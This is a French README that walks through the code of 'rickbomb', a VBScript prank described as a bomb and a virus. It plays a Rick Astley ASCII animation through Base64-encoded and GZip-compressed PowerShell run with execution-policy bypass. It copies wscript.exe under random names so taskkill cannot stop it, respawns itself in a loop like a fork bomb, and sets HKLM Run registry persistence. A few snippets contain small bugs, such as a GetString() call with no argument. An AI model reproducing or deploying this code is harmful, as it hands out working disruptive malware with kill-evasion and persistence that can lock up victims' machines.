 # Précisions sur le script

J'ai fait le script en format VBScript. Il s'agit d'un fichier à l'extension .vbs et son interpréteur est wscript.exe. J'ai choisi cet interpréteur car contrairement à PowerShell ou Batch, on peut le lancer en arrière-plan sans démarrer une fenêtre de console. 

En ouvrant le fichier VBS, on remarque variables qui contiennent d'étranges chaînes de caractères.


## L'animation de Rick Astley

La variable **a** dans le script est un gros bloc de texte encodé en [Base64](https://fr.wikipedia.org/wiki/Base64). C'est un format utilisé pour représenter des données binaires, non textuelles, en utilisant seulement des caractères textuels. 

Pour construire ce bloc, j'ai créé un fichier avec toutes les trames de l'animation (voir le fichier `rickanim.txt`). J'ai mis un caractère `#` à la fin de chaque trame. Comme ça donne un fichier assez gros, j'ai cru bon compresser la chaîne avec GZip, un algorithme particulièrement efficace sur les chaînes de caractères. Je l'ai fait en appelant des méthodes .NET en PowerShell.

En partant de l'animation en texte brut, `rickanim.txt`, j'ai généré une chaîne compressée, que j'ai enregistré dans le fichier `r.txt`.

```powershell
# L'animation est stockée dans un fichier texte. On stocke le contenu dans une variable.
$String = Get-Content ".\rickanim.txt" -Raw

# On va chercher les octets de la chaîne de caractères.
$Bytes = [System.Text.Encoding]::UTF8.GetBytes($String)

# Ces octets sont compressés en utilisant Gzip.
[System.IO.MemoryStream] $OutputStream = New-Object System.IO.MemoryStream
$GzipStream = New-Object System.IO.Compression.GzipStream $OutputStream, ([IO.Compression.CompressionMode]::Compress)
$GzipStream.Write($Bytes, 0, $Bytes.Count)
$GzipStream.Close()
$OutputStream.Close()
$CompressedBytes = $OutputStream.ToArray()

# On convertit les octets compressés en BASE64
$CompressedString = [Convert]::toBase64String($CompressedBytes)

# On écrit le résultat dans un fichier texte.
$CompressedString | Set-Content ".\r.txt" -Encoding utf8
```

Il suffit ensuite de copier ce texte dans le script en le brisant avec plusieurs lignes (en VBScript, le caractère `&` sert à concaténer deux chaînes, et le caractère `_` sert à étendre une seule ligne de code sur plusieurs lignes de texte. )

Pour décompresser, il suffit de faire l'opération inverse:

```powershell
# On stocke le contenu du fichier texte compressé en BASE64 dans une variable.
$CompressedString = Get-Content ".\r.txt" -Raw

# On décompresse avec Gzip.
$InputStream = New-Object System.IO.MemoryStream(,[Convert]::FromBase64String($CompressedString))
$OutputStream = New-Object System.IO.MemoryStream
$GzipStream = New-Object System.IO.Compression.GzipStream $InputStream,([IO.Compression.CompressionMode]::Decompress)
$GzipStream.CopyTo($OutputStream)
$GzipStream.Close()
$OutputStream.Close()
$InputStream.Close()
$Bytes = $OutputStream.ToArray()

# On restitue une chaîne de caractères à partir des octets.
$String = [System.Text.Encoding]::utf8.GetString()

# On écrit le résultat dans un fichier texte.
$String | Set-Content ".\r_decoded.txt" -Encoding utf8
```

## Le script PowerShell

La variable **b** contient aussi une chaîne encodée en BASE64. Contrairement à l'animation de Rick, cette chaîne n'est pas compressée. On extrait simplement les octets en format Unicode [UTF-16LE](https://en.wikipedia.org/wiki/UTF-16) puis on les convertit en BASE64. Ce script obtient la chaîne à partir du fichier `r.txt`.

```powershell
# On stocke le script PowerShell à encoder dans une variable.
$script = [scriptblock]{
    $foo = Get-Content "$env:temp\r.txt" -Raw
    $bar = New-Object System.IO.MemoryStream(,[Convert]::FromBase64String($foo))
    $baz = New-Object System.IO.MemoryStream
    $qux = New-Object System.IO.Compression.GzipStream $bar,([IO.Compression.CompressionMode]::Decompress)
    $qux.CopyTo($baz) ; $qux.Close() ; $baz.Close() ; $bar.Close()
    $quux = [System.Text.Encoding]::utf8.GetString($baz.ToArray())
    while($true){ $quux.split('#') | ForEach-Object{Clear-Host;$_;Start-Sleep -Milliseconds 50} }
}

# On convertit le script en chaîne de caractères et on en extrait les octets UTF16-LE.
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script.ToString())

# On encode ces octets en BASE64.
$encodedCommand = [Convert]::ToBase64String($bytes)

# Puis on écrit la chaîne résultante dans un fichier.
$String | Set-Content ".\encoded_script.txt" -Encoding utf8
```

L'interpréteur PowerShell permet de charger un script encodé en UTF-16LE directement en le passant en argument.

```powershell
powershell.exe -EncodedCommand $encodedCommand
```

Pour décoder le script PowerShell, on n'a qu'à faire l'opération inverse.

```powershell
$encodedString = Get-Content .\encoded_script.txt -Raw
$decodedBytes = [Convert]::fromBase64String($encodedString)   
[System.Text.Encoding]::Unicode.GetString($decodedBytes)
```

## La bombe

Avec ces deux chaînes encodées, le script est en mesure de lancer une fenêtre PowerShell avec l'animation de Rick Astley. Mais ce n'est pas la partie la plus dangereuse. Le mécanisme qui permet au script de démarrer en boucle est déterminé par le code VBScript.

Premièrement, le script doit initialiser des objets pour manipuler le *shell* et le système de fichiers.
```vb
set c = CreateObject("Scripting.FileSystemObject")
set d = CreateObject("WScript.Shell")
```

Ensuite, le script fait une copie de l'interpréteur `wscript.exe` dans le répertoire temporaire de l'utilisateur (`C:\Users\nomdelutilisateur\Appdata\Local\Temp\`) sous un nom de fichier généré aléatoirement. Cela évite de pouvoir mettre fin au virus avec une simple commande `taskkill /f /im wscript.exe`.
```vb
e = "c:\windows\system32\wscript.exe"
f = d.ExpandEnvironmentStrings("%tmp%") & "\" & c.GetTempName & ".exe"
c.CopyFile e, f, true
```

Il faut aussi écrire le contenu de la chaîne encodée de Rick dans un fichier texte de façon à ce que le script PowerShell qui démarrera par la suite puisse avoir accès aux données compressées. La chaîne est trop grande pour la passer directement dans la commande encodée, alors ça nous force à utiliser un fichier. On dépose le fichier dans le répertoire temporaire de l'utilisateur (`C:\Users\nomdelutilisateur\Appdata\Local\Temp\`).
```vb
g = d.ExpandEnvironmentStrings("%tmp%") & "\r.txt"
if not c.FileExists(g) then
    set h = c.CreateTextFile(g,True)
    h.Write a & vbCrLf
end if
```

On lance le script PowerShell encodé dans la variable `b` en parallèle.
```vb
d.run "powershell.exe -executionpolicy bypass -noexit -encodedcommand " & b, 1, False
```

Finalement, on exécute la copie de l'interpréteur wscript avec son nom aléatoire pour qu'il exécute le script
```vb
d.run f & " " & WScript.ScriptFullName,0,False
```

## Lancement de la bombe

Pour démarrer la bombe, il suffit d'exécuter le fichier `rickbomb.vbs` par l'interpréteur `wscript.exe` se trouvant dans `C:\Windows\System32\`. 

```bat
wscript.exe /b /nologo %windir%\rickbomb.vbs
```

## Lancement automatique

Pour que le script soit lancé automatiquement au démarrage d'une session utilisateur, on peut planifier son exécution de plusieurs manières. J'ai choisi de le déposer dans la clé *Run* du registre.

```powershell
# On copie le script dans C:\Windows\
$CopyFileSplat = @{
    Path = "$PSScriptRoot\rickbomb.vbs"
    Destination = "C:\Windows"
}
Copy-Item @CopyFileSplat -Force

# On crée l'entrée au registre pour le démarrage automatique
$RegValSplat = @{
    Path = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
    Name = "rickbomb"
    PropertyType = "ExpandString"
    Value = "%windir%\system32\wscript.exe /b /nologo %windir%\rickbomb.vbs"
}
New-ItemProperty @RegValSplat -Force
```


## Références

L'animation de Rick Astley a été empruntée de cette page: https://www.ascii.co.uk/animated-art/rickroll-animated-ascii-art.html
